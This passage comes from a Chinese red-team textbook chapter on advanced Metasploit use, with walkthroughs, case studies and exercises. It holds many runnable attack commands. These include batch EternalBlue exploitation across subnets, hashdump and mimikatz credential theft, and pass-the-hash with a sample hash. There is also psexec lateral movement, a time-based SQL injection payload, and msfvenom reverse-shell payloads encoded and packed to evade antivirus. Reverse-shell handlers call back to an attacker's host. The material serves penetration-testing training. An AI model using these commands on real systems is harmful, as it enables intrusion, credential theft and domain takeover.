| 模块 | 功能 |
|------|------|
| `post/windows/manage/portproxy` | 端口代理 |
| `post/multi/manage/autoroute` | 自动路由 |

**文件相关：**

| 模块 | 功能 |
|------|------|
| `post/windows/gather/dumplinks` | 最近访问文件 |
| `post/windows/gather/forensics/imager` | 磁盘取证 |

**用户界面相关：**

| 模块 | 功能 |
|------|------|
| `post/windows/ui/messagebox` | 弹出消息框 |
| `post/windows/ui/lockout` | 锁屏 |
| `post/windows/manage/keylogger` | 键盘记录 |

---

## 🔧 Auxiliary辅助模块大全

### 7.1 Auxiliary模块是什么？

Auxiliary（辅助模块）是MSF的六大模块之一，
它不像Exploit模块那样用来拿Shell，
而是用来做辅助工作的。

比如：
- 扫描
- 信息收集
- 爆破
- 拒绝服务
- 漏洞检测
- 数据处理
- ...

简单说就是：
**除了拿Shell之外的工作，
很多都可以用Auxiliary模块完成。**

### 7.2 Auxiliary模块分类

Auxiliary模块按功能可以分为：

**1. Scanner（扫描器类）**
- 端口扫描
- 服务识别
- 漏洞扫描
- 爆破

**2. Gather（信息收集类）**
- Whois查询
- DNS枚举
- 邮件收集
- SNMP枚举

**3. Dos（拒绝服务类）**
- 各种DoS攻击

**4. Fuzzer（模糊测试类）**
- 协议模糊测试

**5. Admin（管理类）**
- 各种管理功能

**6. Server（服务类）**
- 搭建各种服务

**7. Sniffer（嗅探类）**
- 网络嗅探

### 7.3 常用Scanner模块

我们前面已经讲了不少Scanner模块，
这里再补充一些。

**SMB相关：**
```bash
auxiliary/scanner/smb/smb_enumshares    # 枚举共享
auxiliary/scanner/smb/smb_enumusers     # 枚举用户
auxiliary/scanner/smb/smb_login         # SMB登录爆破
auxiliary/scanner/smb/pipe_auditor      # 管道审计
auxiliary/scanner/smb/smb_ms17_010      # MS17-010扫描
```

**MSSQL相关：**
```bash
auxiliary/scanner/mssql/mssql_login     # MSSQL登录爆破
auxiliary/scanner/mssql/mssql_ping      # MSSQL探测
auxiliary/admin/mssql/mssql_enum        # MSSQL枚举
```

**MySQL相关：**
```bash
auxiliary/scanner/mysql/mysql_login     # MySQL登录爆破
auxiliary/admin/mysql/mysql_enum        # MySQL枚举
auxiliary/admin/mysql/mysql_sql         # 执行SQL语句
```

**HTTP相关：**
```bash
auxiliary/scanner/http/http_version     # HTTP版本识别
auxiliary/scanner/http/dir_scanner      # 目录扫描
auxiliary/scanner/http/brute_dirs       # 目录爆破
auxiliary/scanner/http/http_login       # HTTP登录爆破
auxiliary/scanner/http/options          # HTTP Options方法
auxiliary/scanner/http/robots_txt       # robots.txt检查
```

**SNMP相关：**
```bash
auxiliary/scanner/snmp/snmp_enum        # SNMP枚举
auxiliary/scanner/snmp/snmp_login       # SNMP团体名爆破
```

### 7.4 常用Gather模块

```bash
auxiliary/gather/whois                  # Whois查询
auxiliary/gather/dns_enum               # DNS枚举
auxiliary/gather/dns_reverse_lookup     # 反向DNS查询
auxiliary/gather/search_email_collector # 邮箱收集
auxiliary/gather/ssl_scanner            # SSL扫描
auxiliary/gather/shodan_search          # Shodan搜索
auxiliary/gather/censys_search          # Censys搜索
```

### 7.5 常用Admin模块

```bash
auxiliary/admin/http/...                # 各种HTTP后台管理
auxiliary/admin/smb/...                 # SMB管理
auxiliary/admin/mysql/...               # MySQL管理
auxiliary/admin/mssql/...               # MSSQL管理
auxiliary/admin/oracle/...              # Oracle管理
```

---

## 📝 MSF模块编写入门

### 8.1 为什么要自己写模块？

你可能会问：
"MSF已经有这么多模块了，
为什么还要自己写？"

问得好！

虽然MSF模块很多，
但总有一些情况：
- 你发现了一个新漏洞，MSF里没有
- 你想定制一个特殊功能
- 你想把自己的工具集成到MSF里
- 你想深入学习MSF原理

这时候就需要自己写模块了。

而且，
学会写MSF模块，
你对MSF的理解会更深刻，
用起来也更得心应手。

### 8.2 MSF模块的基本结构

MSF模块是用Ruby写的，
结构其实很简单。

一个基本的Auxiliary模块结构：

```ruby
require 'msf/core'

class MetasploitModule < Msf::Auxiliary

  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '模块名称',
      'Description'    => %q{
        模块描述，
        详细说明这个模块是干什么的。
      },
      'Author'         => ['作者名字'],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2024-0001'],
          ['URL', 'https://example.com']
        ]
    ))

    register_options(
      [
        OptString.new('RHOSTS', [true, '目标主机地址']),
        OptInt.new('RPORT', [true, '目标端口', 80])
      ])
  end

  def run_host(ip)
    # 模块的主要逻辑写在这里
    print_status("正在扫描 #{ip}:#{rport}")
    
    # 你的代码...
    
    if 漏洞存在
      print_good("#{ip}:#{rport} 存在漏洞！")
    else
      print_status("#{ip}:#{rport} 不存在漏洞")
    end
  end

end
```

看起来是不是没那么复杂？

### 8.3 写一个简单的扫描模块

让我们来写一个最简单的模块，
检测目标端口是否开放。

**第一步：创建模块文件**

模块文件要放在正确的目录里，
Auxiliary模块放在：
`~/.msf4/modules/auxiliary/scanner/`

我们创建一个文件：
`~/.msf4/modules/auxiliary/scanner/port_check.rb`

**第二步：编写模块代码**

```ruby
require 'msf/core'

class MetasploitModule < Msf::Auxiliary
  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '简单端口检测',
      'Description'    => %q{
        这个模块用来检测目标端口是否开放。
        这是一个教学示例模块。
      },
      'Author'         => ['Your Name'],
      'License'        => MSF_LICENSE
    ))

    register_options([
      OptInt.new('RPORT', [true, '要检测的端口', 80]),
      OptInt.new('TIMEOUT', [true, '超时时间(秒)', 5])
    ])
  end

  def run_host(ip)
    port = datastore['RPORT']
    timeout = datastore['TIMEOUT']

    print_status("正在检测 #{ip}:#{port} ...")

    begin
      sock = Rex::Socket::Tcp.create(
        'PeerHost' => ip,
        'PeerPort' => port,
        'Timeout'  => timeout
      )
      
      print_good("#{ip}:#{port} 端口开放！")
      sock.close
      
      report_service(
        host: ip,
        port: port,
        proto: 'tcp',
        name: 'unknown',
        info: '端口开放'
      )
      
    rescue Rex::ConnectionError
      print_status("#{ip}:#{port} 端口关闭")
    rescue => e
      print_error("#{ip}:#{port} 发生错误: #{e.message}")
    end
  end
end
```

**第三步：加载模块**

打开msfconsole，输入：
```bash
reload_all
```

然后就可以使用了：
```bash
use auxiliary/scanner/port_check
set RHOSTS 192.168.1.0/24
set RPORT 445
run
```

是不是很简单？

### 8.4 常用API介绍

写MSF模块常用的一些API：

**输出函数：**
```ruby
print_status("消息")   # 普通消息（蓝色）
print_good("消息")     # 成功消息（绿色）
print_error("消息")    # 错误消息（红色）
print_warning("消息")  # 警告消息（黄色）
print_debug("消息")    # 调试消息
```

**数据库操作：**
```ruby
# 报告服务
report_service(host: ip, port: port, proto: 'tcp', name: 'http')

# 报告漏洞
report_vuln(host: ip, name: '漏洞名', refs: references)

# 报告凭证
report_credential(...)
```

**网络操作：**
```ruby
# TCP连接
sock = Rex::Socket::Tcp.create('PeerHost' => ip, 'PeerPort' => port)

# 发送数据
sock.put("data")

# 接收数据
data = sock.get_once

# HTTP请求
res = send_request_cgi({
  'method' => 'GET',
  'uri' => '/index.php'
})
```

### 8.5 模块编写的学习路径

想深入学习MSF模块编写，
可以按这个路径：

1. **先看懂别人的模块** - 找几个简单的模块读一读
2. **修改现有模块** - 在别人的模块基础上改
3. **写简单的Auxiliary模块** - 扫描器、信息收集
4. **写复杂的Auxiliary模块** - 爆破器、漏洞检测
5. **写Exploit模块** - 漏洞利用
6. **写Post模块** - 后渗透模块
7. **写Payload模块** - Payload模块

::: tip 学习资源
1. MSF自带的模块就是最好的学习材料
2. 官方文档：https://docs.metasploit.com/
3. GitHub上的MSF源码
4. 各种技术博客
:::

**图41-5 MSF模块编写学习路径图**


---

## 🔗 MSF与Cobalt Strike联动

### 9.1 为什么要联动？

MSF和Cobalt Strike（简称CS）
都是红队常用的工具，
各有各的优势。

**MSF的优势：**
- 漏洞利用模块多
- 后渗透模块丰富
- 免费开源
- 自定义程度高

**CS的优势：**
- 团队协作好
- 界面友好
- Beacon功能强大
- 横向移动方便
- 报告生成方便

把两者联动起来，
就能取长补短，
发挥各自的优势。

比如：
- 用MSF打漏洞拿Shell，然后转到CS
- 用CS做C2，用MSF做后渗透
- 用CS做横向移动，用MSF打漏洞

**图41-4 MSF与Cobalt Strike联动关系图**



### 9.2 MSF派生到CS

第一种联动方式：
**MSF的Meterpreter派生到CS的Beacon。**

也就是：
你用MSF拿到了Meterpreter，
想把它转到CS里。

**方法：使用CS的foreign Payload**

第一步：在CS中创建Foreign Listener
- 打开CS客户端
- 点击 Listeners
- 点击 Add
- 选择 Payload: `windows/foreign/reverse_http`
- 设置 Host 和 Port
- 点击 Save

第二步：在MSF中派生

```bash
# 假设你已经有一个Meterpreter会话，ID是1
sessions -i 1

# 使用post模块派生
use post/windows/manage/inject_payload
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_http
set LHOST your_cs_server
set LPORT your_cs_port
run
```

或者用更简单的方法：
```bash
# 在Meterpreter中执行
execute -c -H -f "beacon.exe"
```

### 9.3 CS派生到MSF

第二种联动方式：
**CS的Beacon派生到MSF的Meterpreter。**

也就是：
你用CS拿到了Beacon，
想用MSF的模块。

**方法：在CS中用MSF的Payload**

第一步：在MSF中开启监听

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 0.0.0.0
set LPORT 8080
run -j
```

第二步：在CS中派生

在CS Beacon中：
```bash
spawn x64/meterpreter/reverse_http <msf_ip>:<msf_port>
```

或者用CS的GUI操作：
- 右键 Beacon
- 选择 Access → Spawn
- 选择你的MSF监听器

**图41-6 Cobalt Strike Beacon派生到MSF界面实景图**


### 9.4 MSF作为CS的Payload生成器

第三种联动方式：
**用MSF生成Payload，用CS做C2。**

也就是：
MSF负责生成免杀的Payload，
CS负责C2通信。

不过这个用得不多，
因为CS自己就能生成Payload。

### 9.5 其他联动方式

还有一些其他的联动方式：

**1. MSF + CS的SOCKS代理**
- 用CS的SOCKS代理进入内网
- 用MSF通过代理打内网的机器

**2. 凭证共享**
- MSF收集的凭证导出，在CS中使用
- CS收集的凭证导出，在MSF中使用

**3. 数据共享**
- 通过数据库或文件共享目标信息

::: tip 实战建议
在真实的护网行动中，
建议：
1. 主要用CS做C2和团队协作
2. 用MSF打漏洞和做特殊的后渗透操作
3. 两者配合使用，效率最高
:::

---

## 📜 MSF资源脚本（rc脚本）

### 10.1 什么是资源脚本？

资源脚本（Resource Script，简称rc脚本），
就是把一系列MSF命令写在一个文件里，
然后一次性执行。

类似于：
- Windows的批处理（.bat）
- Linux的Shell脚本（.sh）
- Python的脚本（.py）

为什么要用rc脚本？
因为很多操作都是重复的，
每次都要手动敲一遍命令，
太麻烦了。

写成脚本的话，
一次编写，多次使用，
方便快捷，还不容易出错。

### 10.2 rc脚本基本用法

**写一个最简单的rc脚本：**

创建一个文件 `test.rc`：
```bash
echo 这是第一行
echo 这是第二行
echo Hello MSF!
```

**执行rc脚本：**

方法一：启动msfconsole时指定
```bash
msfconsole -r test.rc
```

方法二：在msfconsole中执行
```bash
resource test.rc
```

### 10.3 常用rc脚本示例

**示例1：数据库初始化脚本**

`init.rc`：
```bash
# 初始化数据库
db_status

# 创建工作区
workspace -a hw_2024
workspace hw_2024

# 设置默认参数
setg RHOSTS 192.168.1.0/24
setg LHOST 192.168.1.10
setg LPORT 4444

print_status("初始化完成！")
```

**示例2：批量扫描脚本**

`scan.rc`：
```bash
# 切换工作区
workspace hw_2024

# 端口扫描
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 21,22,80,135,139,443,445,3306,3389
set THREADS 50
run

# SMB版本扫描
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
set THREADS 50
run

# MS17-010扫描
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
set THREADS 50
run

print_status("扫描完成！")
hosts
services
```

**示例3：批量利用脚本**

`exploit.rc`：
```bash
# 设置通用参数
setg PAYLOAD windows/meterpreter/reverse_tcp
setg LHOST 192.168.1.10
setg LPORT 4444

# MS17-010批量利用
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.0/24
exploit -j -z

print_status("利用完成！")
sessions -l
```

**示例4：后渗透自动化脚本**

`post.rc`：
```bash
# 对所有会话执行后渗透操作
sessions -l

# 遍历所有会话
<ruby>
framework.sessions.each do |sid, s|
  next unless s.type == "meterpreter"
  
  print_status("处理会话 #{sid}...")
  
  # 执行命令
  s.run_single("sysinfo")
  s.run_single("getuid")
  s.run_single("hashdump")
end
</ruby>
```

### 10.4 rc脚本中的Ruby代码

rc脚本中还可以嵌入Ruby代码，
用`<ruby>`标签包裹。

这样就可以实现更复杂的逻辑，
比如循环、条件判断等等。

**示例：遍历所有会话**

```bash
<ruby>
framework.sessions.each_pair do |sid, session|
  print_status("会话 #{sid}: #{session.info}")
end
</ruby>
```

**示例：批量执行命令**

```bash
<ruby>
cmd = "ipconfig"
framework.sessions.each_pair do |sid, session|
  if session.type == "meterpreter"
    print_status("在会话 #{sid} 执行 #{cmd}")
    session.sys.process.execute(cmd, nil, {'Hidden' => true})
  end
end
</ruby>
```

### 10.5 常用的MSF自带rc脚本

MSF自带了一些有用的rc脚本，
在这个目录下：
`/usr/share/metasploit-framework/scripts/resource/`

常用的：
- `portscan.rc` - 端口扫描
- `auto_ms17_010.rc` - 自动MS17-010
- ...

大家可以自己去看看。

::: tip 实战建议
1. 把常用的操作都写成rc脚本
2. 按项目分类管理脚本
3. 定期更新和优化脚本
4. 共享给团队成员，提高整体效率
:::

---

## 🏰 MSF在域环境中的应用

### 11.1 域环境中的MSF

域环境是企业网络最常见的架构，
也是红队攻击的重点目标。

MSF在域环境中能做什么？
- 域信息收集
- 域内凭证收集
- 域内横向移动
- 域控攻击
- ...

这一章先简单介绍，
后面的域渗透章节会详细讲。

### 11.2 域信息收集

**常用的域信息收集Post模块：**

```bash
# 域信息收集
use post/windows/gather/enum_domain
set SESSION 1
run

# 域用户枚举
use post/windows/gather/enum_domain_users
set SESSION 1
run

# 域组枚举
use post/windows/gather/enum_domain_groups
set SESSION 1
run

# 域控查找
use post/windows/gather/enum_domains
set SESSION 1
run
```

**常用的域内扫描模块：**

```bash
# 查找域控
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS 192.168.1.0/24
run
```

### 11.3 域内凭证收集

**GPP密码获取：**

```bash
use post/windows/gather/credentials/gpp
set SESSION 1
run
```

组策略偏好（GPP）中经常保存有密码，
而且可以被所有域用户读取，
这是一个很常见的漏洞。

**Hashdump导出域Hash：**

如果在域控上，
可以直接用hashdump导出所有域用户的Hash：
```bash
hashdump
```

**Mimikatz抓取域凭证：**

```bash
use post/windows/gather/credentials/mimikatz
set SESSION 1
run
```

### 11.4 域内横向移动

MSF有很多模块可以用于域内横向移动：

**PsExec：**
```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass P@ssw0rd
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
run
```

**WMI：**
```bash
use exploit/windows/smb/psexec_psh
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass P@ssw0rd
run
```

**WinRM：**
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 192.168.1.100
set USERNAME administrator
set PASSWORD P@ssw0rd
run
```

**SMB传递哈希（Pass-the-Hash）：**
```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
run
```

### 11.5 域控攻击

**常见的域控漏洞：**
- MS14-068（Kerberos漏洞）
- ZeroLogon（CVE-2020-1472）
- MS17-010（永恒之蓝，如果域控没打补丁）
- ...

**MS14-068模块：**
```bash
use exploit/windows/kerberos/ms14_068_kerberos_checksum
```

**ZeroLogon模块：**
```bash
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
```

这些我们在域渗透章节会详细讲。

---

## 🚀 大型内网渗透中的MSF使用技巧

### 12.1 大型内网的挑战

大型内网渗透和打单个靶机完全不一样，
会面临很多挑战：

1. **目标太多** - 几百、几千台机器，管理不过来
2. **网络复杂** - 多网段、多层防火墙、DMZ区
3. **数据量大** - 扫描结果、凭证、漏洞...数据太多
4. **操作容易出错** - 机器多了，很容易搞混
5. **容易触发告警** - 操作太多太猛，容易被发现

这时候就需要一些技巧，
来高效地管理和使用MSF。

### 12.2 工作区与数据库的高级用法

**1. 按网段分工作区**

大型内网通常有很多网段，
可以按网段分工作区：
```bash
workspace -a dmz
workspace -a office
workspace -a server
workspace -a domain
```

**2. 定期备份数据库**

```bash
db_export -f xml backup_$(date +%Y%m%d).xml
```

**3. 使用标签管理主机**

```bash
# 给主机打标签
hosts -t domain_controller 192.168.1.10
hosts -t web_server 192.168.1.20

# 按标签筛选
hosts -S domain_controller
```

**4. 使用注释记录信息**

```bash
notes -a 192.168.1.10 -n "域控，Windows Server 2019，已拿System权限"
```

### 12.3 批量操作技巧

**1. 批量扫描**

把常用的扫描写成rc脚本，
一键执行：
```bash
resource scan_all.rc
```

**2. 批量利用**

针对同一个漏洞，批量利用：
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS file:ms17_010_targets.txt
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit -j -z
```

**3. 批量后渗透**

用rc脚本对所有会话执行操作：
```bash
<ruby>
framework.sessions.each_pair do |sid, s|
  next unless s.type == "meterpreter"
  print_status("处理会话 #{sid}...")
  s.run_single("hashdump")
  s.run_single("getsystem")
end
</ruby>
```

### 12.4 会话管理技巧

大型内网中可能有几十个会话，
管理起来很麻烦。

**会话管理命令：**

```bash
# 列出所有会话
sessions -l

# 按类型筛选
sessions -l -t meterpreter

# 升级普通Shell到Meterpreter
sessions -u 1

# 后台会话（Ctrl+Z）
background

# 进入会话
sessions -i 1

# 杀死会话
sessions -k 1

# 批量杀死所有会话
sessions -K
```

**会话命名：**

```bash
# 给会话命名，方便识别
sessions -n "DC01" -i 1
sessions -n "Web01" -i 2
```

### 12.5 效率提升技巧

**1. 使用setg设置全局变量**

```bash
setg LHOST 192.168.1.10
setg LPORT 4444
setg PAYLOAD windows/meterpreter/reverse_tcp
```

这样每个模块都不用重复设置了。

**2. 使用别名**

```bash
alias "msf" "msfconsole -q"
```

**3. 自定义模块目录**

把自己写的模块放在`~/.msf4/modules/`目录里，
MSF会自动加载。

**4. 使用AutoRunScript**

设置会话建立后自动执行的脚本：
```bash
set AutoRunScript post/windows/manage/migrate
```

这样每次拿到新会话，
会自动执行迁移进程等操作。

**5. 多Handler监听**

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
run -j

set PAYLOAD windows/meterpreter/reverse_https
set LPORT 443
run -j

set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LPORT 5555
run -j
```

一个MSF可以同时监听多个端口、
多种Payload。

---

## 📚 真实案例

### 案例1：MSF批量扫描内网

**场景：**
护网行动中，我们拿到了一台Web服务器的权限，
内网有一个C段，需要快速摸清情况。

**操作步骤：**

1. **配置数据库和工作区**
```bash
db_status
workspace -a internal
workspace internal
```

2. **添加路由，进入内网**
```bash
# 假设session 1是已控制的Web服务器
run post/windows/manage/autoroute SESSION=1 SUBNET=192.168.10.0 NETMASK=255.255.255.0
```

3. **端口扫描**
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.10.0/24
set PORTS 21,22,80,135,139,443,445,1433,3306,3389,5985,8080
set THREADS 50
run
```

4. **服务识别**
```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.0/24
run

use auxiliary/scanner/http/http_version
set RHOSTS 192.168.10.0/24
run
```

5. **漏洞扫描**
```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.10.0/24
run
```

6. **查看结果**
```bash
hosts
services
vulns
```

**结果：**
- 发现了50台存活主机
- 其中15台有SMB服务
- 3台存在MS17-010漏洞
- 所有信息都存入了数据库，方便后续使用

### 案例2：自定义MSF扫描模块

**场景：**
我们发现了一个新的漏洞，
MSF里没有对应的扫描模块，
需要自己写一个。

**需求：**
- 扫描目标是否存在某Web漏洞
- 支持批量扫描
- 结果存入数据库

**模块代码（简化版）：**

```ruby
require 'msf/core'

class MetasploitModule < Msf::Auxiliary
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::WmapScanPlugin

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'XXX Web漏洞扫描器',
      'Description'    => %q{
        检测目标是否存在XXX漏洞。
      },
      'Author'         => ['Your Name'],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2024-XXXX'],
        ]
    ))

    register_options([
      OptString.new('TARGETURI', [true, '目标路径', '/']),
    ])
  end

  def run_host(ip)
    begin
      res = send_request_cgi({
        'method' => 'GET',
        'uri'    => normalize_uri(target_uri.path, 'vuln.php'),
        'vars_get' => {
          'id' => '1\' AND (SELECT * FROM (SELECT(SLEEP(5)))a)-- '
        }
      }, 10)

      if res and res.code == 200 and res.time > 5
        print_good("#{ip} 存在XXX漏洞！")
        report_vuln({
          host: ip,
          port: rport,
          name: 'XXX Vulnerability',
          refs: references,
          info: 'Time-based SQL injection'
        })
      else
        print_status("#{ip} 不存在XXX漏洞")
      end
    rescue ::Rex::ConnectionError
      print_error("#{ip} 连接失败")
    end
  end
end
```

**使用方法：**
```bash
# 把模块放到 ~/.msf4/modules/auxiliary/scanner/http/
reload_all
use auxiliary/scanner/http/xxx_scanner
set RHOSTS 192.168.1.0/24
run
```

### 案例3：MSF免杀Payload生成

**场景：**
需要生成一个能绕过某杀毒软件的Payload。

**方法：多重编码 + 自定义模板**

```bash
# 第一步：生成原始Shellcode
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -e x86/shikata_ga_nai -i 5 \
  -f raw -o shellcode.bin

# 第二步：用自己的程序加载Shellcode（自定义加载器）
# （这部分需要自己写代码，这里不展开）

# 第三步：加壳（用UPX或其他加壳工具）
upx -9 payload.exe

# 第四步：资源修改（图标、版本信息等）
# 用Resource Hacker等工具修改
```

**注意：**
- 单纯的MSF编码现在免杀效果很差
- 真正的免杀需要自定义Shellcode加载器
- 还要绕过行为检测、云查杀等
- 后面的免杀章节会详细讲

### 案例4：MSF在域环境中的实战

**场景：**
护网行动中，我们通过钓鱼拿到了一台域内机器的权限，
现在要进行域渗透。

**操作步骤：**

1. **信息收集**
```bash
sysinfo
ipconfig
net user /domain
net group "domain admins" /domain
net domain
```

2. **收集凭证**
```bash
hashdump
use post/windows/gather/credentials/mimikatz
set SESSION 1
run
```

3. **查找域控**
```bash
use post/windows/gather/enum_domain
set SESSION 1
run
```

4. **GPP密码检查**
```bash
use post/windows/gather/credentials/gpp
set SESSION 1
run
```

5. **横向移动**
```bash
# 用收集到的凭证尝试登录其他机器
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.10.0/24
set SMBUser admin
set SMBPass P@ssw0rd
run
```

6. **域控攻击**
```bash
# 如果有漏洞，直接打域控
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.10.10  # 域控IP
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

**结果：**
- 从1台机器扩展到了20多台
- 拿到了域管理员权限
- 拿下了域控

### 案例5：MSF资源脚本自动化

**场景：**
每次护网行动都要重复很多操作，
我们写了一套rc脚本来自动化。

**脚本结构：**
```
scripts/
├── 00_init.rc        # 初始化
├── 01_scan.rc        # 扫描
├── 02_enum.rc        # 信息收集
├── 03_exploit.rc     # 漏洞利用
├── 04_post.rc        # 后渗透
└── 05_report.rc      # 报告生成
```

**00_init.rc：**
```bash
db_status
workspace -a hw_2024
workspace hw_2024

setg LHOST 1.2.3.4
setg LPORT 443
setg PAYLOAD windows/meterpreter/reverse_https

print_status("初始化完成！")
```

**01_scan.rc：**
```bash
print_status("开始端口扫描...")

use auxiliary/scanner/portscan/tcp
set RHOSTS file:targets.txt
set PORTS 21,22,80,443,445,1433,3306,3389,5985
set THREADS 100
run

print_status("端口扫描完成！")
hosts
services
```

**使用方法：**
```bash
msfconsole -r scripts/00_init.rc
resource scripts/01_scan.rc
resource scripts/02_enum.rc
...
```

**效果：**
- 大大提高了效率
- 减少了人工操作的错误
- 新人也能快速上手
- 流程标准化，方便复盘

---

## ✏️ 课后习题

### 一、选择题（10道）

1. MSF默认使用什么数据库？
   A. MySQL
   B. PostgreSQL
   C. MongoDB
   D. SQLite

2. 查看数据库连接状态的命令是？
   A. db_connect
   B. db_status
   C. db_info
   D. database

3. 工作区（Workspace）的作用是？
   A. 提高运行速度
   B. 分离不同项目的数据
   C. 增加模块数量
   D. 提高免杀效果

4. 查看数据库中所有主机的命令是？
   A. hosts
   B. services
   C. creds
   D. vulns

5. Staged Payload和Stageless Payload的区别是？
   A. 功能不同
   B. 传输方式不同，分阶段 vs 不分阶段
   C. 操作系统不同
   D. 价格不同

6. 以下哪个是Stageless Payload？
   A. windows/meterpreter/reverse_tcp
   B. windows/meterpreter_reverse_tcp
   C. windows/shell/reverse_tcp
   D. windows/dllinject/reverse_tcp

7. Encoder模块的作用是？
   A. 加密数据
   B. 编码Payload以绕过检测
   C. 压缩Payload
   D. 增加Payload功能

8. 最著名的MSF编码器是？
   A. x86/fnstenv_mov
   B. x86/shikata_ga_nai
   C. x64/xor
   D. generic/eicar

9. 资源脚本（rc脚本）的作用是？
   A. 提高运行速度
   B. 批量执行MSF命令
   C. 增加模块数量
   D. 自动更新MSF

10. Post模块是用来做什么的？
    A. 漏洞利用
    B. 信息收集
    C. 后渗透操作
    D. 生成Payload

### 二、填空题（5道）

1. 初始化MSF数据库的命令是 `______`。
2. 创建新工作区的命令是 `workspace ______ 工作区名`。
3. 查看所有凭证的命令是 `______`。
4. msfvenom中指定编码器的参数是 `______`。
5. 指定编码次数的参数是 `______`。

### 三、简答题（5道）

1. MSF数据库有什么作用？为什么要用数据库？
2. Staged和Stageless Payload有什么区别？各自的优缺点是什么？
3. Encoder编码能完全免杀吗？为什么？
4. Post模块和Auxiliary模块有什么区别？
5. rc脚本有什么用？举几个实际应用场景。

### 四、实操题（5道）

1. 配置MSF数据库，创建一个名为`test`的工作区，验证数据库连接正常。
2. 使用MSF的扫描模块扫描你实验环境的C段，查看扫描结果是否存入数据库。
3. 使用msfvenom生成一个经过shikata_ga_nai编码5次的Windows反向TCP Payload。
4. 写一个简单的rc脚本，实现自动化端口扫描和服务识别。
5. 尝试找一个简单的Auxiliary模块，读懂它的代码，然后尝试修改它。

---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了MSF的高级应用，
内容比较多，都是实战中很实用的技巧。

**重点回顾：**

1. **数据库与工作区** - 管理渗透测试数据的利器
   - db_status / hosts / services / creds / vulns
   - workspace 工作区管理
   - db_import / db_export 导入导出

2. **扫描与信息收集模块** - 自动化信息收集
   - 端口扫描、服务识别、漏洞扫描
   - 爆破模块、信息收集模块
   - 结果自动存入数据库

3. **漏洞利用进阶** - 更高效地使用Exploit模块
   - 目标选择、Payload配置
   - check检测、批量利用

4. **Payload详解** - 各种Payload的区别与使用
   - Staged vs Stageless
   - Reverse vs Bind
   - 各种平台的Payload

5. **Encoder编码** - 基础免杀手段
   - shikata_ga_nai等编码器
   - 多次编码、NOP生成器

6. **Post后渗透模块** - 拿到Shell后的操作
   - 信息收集、凭证窃取
   - 权限提升、持久化

7. **自定义模块编写** - 扩展MSF的功能
   - 模块的基本结构
   - 简单的扫描模块编写

8. **与Cobalt Strike联动** - 取长补短
   - MSF派生到CS
   - CS派生到MSF

9. **资源脚本（rc脚本）** - 自动化操作
   - 基本语法和使用方法
   - 嵌入Ruby代码

10. **域环境与大型内网技巧** - 实战经验
    - 域信息收集、横向移动
    - 批量操作、会话管理

MSF是一个非常强大的工具，
值得花时间深入学习。
但记住，工具只是工具，
真正重要的是使用工具的思路和方法。

下一章我们会对MSF模块做一个总结，
然后进入下一个模块：提权技术。

准备好了吗？
我们继续前进！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day046-senior-Meterpreter深入)
- [➡️ 下一章：---](/redteam/day048-senior-MSF模块总结)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
